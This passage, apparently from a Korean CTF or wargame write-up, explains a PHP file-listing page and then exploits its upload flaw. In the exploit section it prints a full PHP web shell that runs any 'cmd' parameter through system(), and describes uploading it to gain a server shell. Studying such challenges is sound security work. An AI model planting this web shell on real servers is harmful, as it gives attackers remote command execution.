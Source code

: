 ```php
        foreach ($scanned_directory as $key => $value) {
            echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
        }
    ?>
```

역시 공통 네비게이션바 부분을 제외한 코드이며, `$scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));` 부분을 먼저 살펴보자.

`scandir()` 함수는 인자로 전달 받은 디렉토리에 존재하는 파일과 디렉토리 목록을 배열로 만들어서 리턴하는 함수이다.

여기서 `array_diff()`는 두 번째 인자에 전달된 값을 제외하기 때문에, `$scaned_directory` 변수에는 `..`, `.`, `index.html`을 제외한 `$directory` 내의 파일과 디렉토리 목록이 배열로 저장될 것이다.

그리고 바로 아래에서 반복문을 통해, 해당 배열에 접근하면서 HTML 태그를 활용하여 배열에 저장된 파일 이름과 해당 파일에 접근하는 하이퍼링크를 생성한다.

예를 들어, `$scanned_directory`에 아래와 같이 저장되어 있었다면, 세 개의 태그가 `<li>` 태그가 생성되어 각 파일에 접근할 수 있을 것이다.

```php
$scanned_directory = array(
    0 => 'file1.txt',
    1 => 'file2.png',
    2 => 'file3.html',
);
```

실행 결과는 아래와 같다.

```php
echo "<li><a href='./uploads/file1.txt'>file1.txt</a></li><br/>";
echo "<li><a href='./uploads/file2.png'>file2.png</a></li><br/>";
echo "<li><a href='./uploads/file3.html'>file3.html</a></li><br/>";
```

<br>

## Exploit

해당 문제에서는 **Path Traversal** 취약점과 **웹 셸 업로드** 취약점이 존재한다.

Path Traversal 취약점을 통해서 원하는 위치에 임의 파일을 업로드할 수 있긴 하지만, 서버에서 실행되는 파일의 이름을 찾아서 덮어써야 하고, 해당 파일이 어디에 위치하는지와, 업로드할 파일의 이름에 `../`과 같은 특수 문자를 넣는 방법이 쉽지 않다.

따라서, 간단히 **php 웹 셸**을 업로드하여, 해당 파일을 조회했을 때 서버의 셸을 획득할 수 있도록 익스플로잇 해볼 수 있다.

```php
// https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

위는 `HTML` 태그를 통해 `form`을 생성하여 폼의 입력을 `cmd`에 저장하고, `system` 함수의 인자로 전달하는 웹 셸이다.

해당 파일을 `.php` 확장자로 전달하면 `CGI`를 통해 해당 파일이 `list.php`에서 조회될 때 실행되어 셸을 획득하고, `form`을 통해 명령어를 전달할 수 있을 것이다.

<img width="365" alt="image" src="https://github.com/user-attachments/assets/e5ce784a-59c4-4d2c-9a76-e83be86c0bc8">

<img width="216" alt="image" src="https://github.com/user-attachments/assets/fa8aad67-342c-4a6f-9cd4-a9b5947305a7">

<img width="411" alt="image" src="https://github.com/user-attachments/assets/bf8ffd8f-7e62-434a-b1c2-71389406634e">